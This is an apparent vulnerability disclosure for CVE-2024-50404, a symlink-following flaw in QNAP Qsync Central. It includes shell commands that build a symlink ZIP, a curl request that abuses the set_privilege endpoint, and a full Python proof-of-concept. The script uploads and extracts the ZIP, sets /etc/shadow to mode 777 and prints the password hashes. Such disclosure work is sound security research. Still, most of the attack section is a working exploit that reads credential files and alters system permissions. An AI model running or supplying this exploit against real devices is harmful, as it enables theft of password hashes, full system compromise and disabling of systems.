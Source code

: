 # CVE-2024-50404
- https://www.qnap.com/en/security-advisory/qsa-24-48
- https://www.cve.org/CVERecord?id=2024-50404
- CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:A/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N (6.8)

"A link following vulnerability has been reported to affect Qsync Central. If exploited, the vulnerability could allow remote attackers who have gained user access to traverse the file system to unintended locations."

__Date of Discovery:__ 22 April 2024  
__Date of Fix:__ 7 December 2024  
__Affected Version(s):__ Qsync Central 4.4.x  
__Fixed Version(s):__ Qsync Central 4.4.0.16_20240819 (2024/08/19) and later  
__Access Permissions:__ Regular user with file upload permission  

__Summary:__  
It is possible to upload a symlink through a ZIP file and read the file where the uploaded symlink points to.
Furthermore the file permissions of the symlink target can be modified.  
An attacker with privileges of a regular user can read data of other users or the password hashes stored in */etc/config/shadow*, which could lead to the compromise of the whole system.
Additionally the attacker could remove the execute permission on important system binaries to make the system unusable.


# Steps to Reproduce

## Read file via symlink

1. Create a symlink and put it into a ZIP file.

    ``` bash
    ln -s /etc/passwd link.txt
    zip --symlink pwn.zip link.txt
    ```

2. Login as a low-privileged user.
3. Upload the ZIP file into the *.Qsync* folder.

    ![Upload ZIP](screenshots/upload-pwn.zip.png)

4. Extract the ZIP file by right-clicking and selecting *Extract to /pwn/*.

    ![Extract ZIP](screenshots/extract-pwn.zip.png)

5. Open the new *pwn* folder, right-click on *link.txt* and select *Open*.
6. Observe that */etc/passwd* is opened in a new tab.

    ![Open link](screenshots/etc-passwd.png)

## Modify file permissions via symlink

1. Create a symlink and put it into a zip file.

    ``` bash
    ln -s /etc/shadow link.txt
    zip --symlink pwn.zip link.txt
    ```

2. Login as a low-privileged user.
3. Upload the ZIP file into the *.Qsync* folder.
4. Extract the ZIP file by right-clicking and selecting *Extract to /pwn/*.
5. Change the permission of the file where the symlink points to by abusing the *set_privilege* function.

    Curl Request:

    ``` bash
    curl --path-as-is -i -s -k -X $'GET' -H $'Host: 192.168.178.156' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Referer: https://192.168.178.156/cgi-bin/' -H $'X-Requested-With: XMLHttpRequest' -H $'Sec-Fetch-Dest: empty' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Site: same-origin' -H $'Te: trailers' $'https://192.168.178.156/cgi-bin/qsync/qsyncsrv.cgi?func=set_privilege&sid=9j27809t&source_path=/home/.Qsync/pwn/&source_file=link.txt&bOwn_w=1&bOwn_r=1&bOwn_x=1&bGroup_r=1&bGroup_w=1&bGroup_x=1&bOther_r=1&bOther_w=1&bOther_x=1'
    ```

    Burp Request:

    ![Burp request](screenshots/request-burp.png)

    You must replace the *sid* parameter in the URL with a valid session id.

6. Open the new *pwn* folder, right-click on *link.txt* and select *Open*.
7. Observe that */etc/shadow* is opened in a new tab.

    ![Open link](screenshots/etc-shadow.png)

# Proof of Concept

The following Python script can be used to exploit the vulnerability.


``` python
#!/usr/bin/env python3
from requests import Session
import base64
import os
import re
import time
import urllib3

# adjust following variables
ENDPOINT = 'https://192.168.178.156'
USERNAME = 'victim'
PASSWORD = 'Victim123!'
FILE = '/etc/shadow'
#DEBUG_PROXY = 'http://localhost:8080'

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def main() -> None:
    session = Session()
    #session.proxies.update(http=DEBUG_PROXY, https=DEBUG_PROXY)
    session.verify = False

    print(f'carefull, privileges of {FILE} are changed to 777! clean up is not implemented')

    print('creating zip file')
    os.system('rm -f pwned.txt pwn.zip')
    os.system(f'ln -s {FILE} pwned.txt')
    os.system('zip --symlink pwn.zip pwned.txt')

    print('loggin in')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/authLogin.cgi',
        headers={'Content-type': 'application/x-www-form-urlencoded'},
        data={'user': USERNAME, 'serviceKey': '1', 'client_app': 'Web Desktop', 'dont_verify_2sv_again': '0', 'pwd': base64.b64encode(PASSWORD.encode('ascii')).decode('ascii'), 'client_id': '2b491dc6-6542-480d-a3a2-bbe3b433b764'},
    )
    assert response.status_code == 200
    match = re.search(r'<authSid><!\[CDATA\[(.*?)\]\]></authSid>', response.text)
    assert match
    sid = match.group(1)

    print('uploading zip file')
    with open('pwn.zip', 'rb') as file:
        upload_file(session, sid, 'pwn.zip', file.read())

    print('unpacking zip file')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=extract&sid={sid}',
        headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
        data={'mode': 'extract_all', 'pwd': '', 'path_mode': 'full', 'extract_file': '/home/.Qsync/pwn.zip', 'code_page': 'UTF-8', 'overwrite': '1', 'dest_path': '/home/.Qsync'},
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1

    # wait a bit
    time.sleep(5)

    print('changing privileges on file')
    response = session.get(f'{ENDPOINT}/cgi-bin/qsync/qsyncsrv.cgi?func=set_privilege&sid={sid}&source_path=/home/.Qsync/&source_file=pwned.txt&bOwn_w=1&bOwn_r=1&bOwn_x=1&bGroup_r=1&bGroup_w=1&bGroup_x=1&bOther_r=1&bOther_w=1&bOther_x=1')
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1

    print('read file')
    response = session.get(f'{ENDPOINT}/cgi-bin/qsync/qsyncsrv.cgi/pwned.txt?sid={sid}&func=get_viewer&source_path=%2Fhome%2F.Qsync&source_file=pwned.txt')
    assert response.status_code == 200
    print(response.text)

    print('done')


def upload_file(session: Session, sid: str, filename: str, content: bytes) -> None:
    # get upload id
    response = session.post(f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi', headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}, data={'upload_root_dir': '/home', 'func': 'start_chunked_upload', 'sid': sid})
    assert response.status_code == 200
    data = response.json()
    upload_id = data['upload_id']
    assert upload_id

    # upload file
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=chunked_upload&sid={sid}&dest_path=%2Fhome%2F.Qsync&mode=1&dup=Copy&upload_root_dir=%2Fhome&upload_id={upload_id}&offset=0&filesize={len(content)}&upload_name={filename}&settime=1&mtime=1713395222&overwrite=1&multipart=0',
        files=(
            ('fileName', (None, filename.encode('ascii'))),
            ('file', ('blob', content, 'application/octet-stream')),
        ),
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1


if __name__ == '__main__':
    main()
```
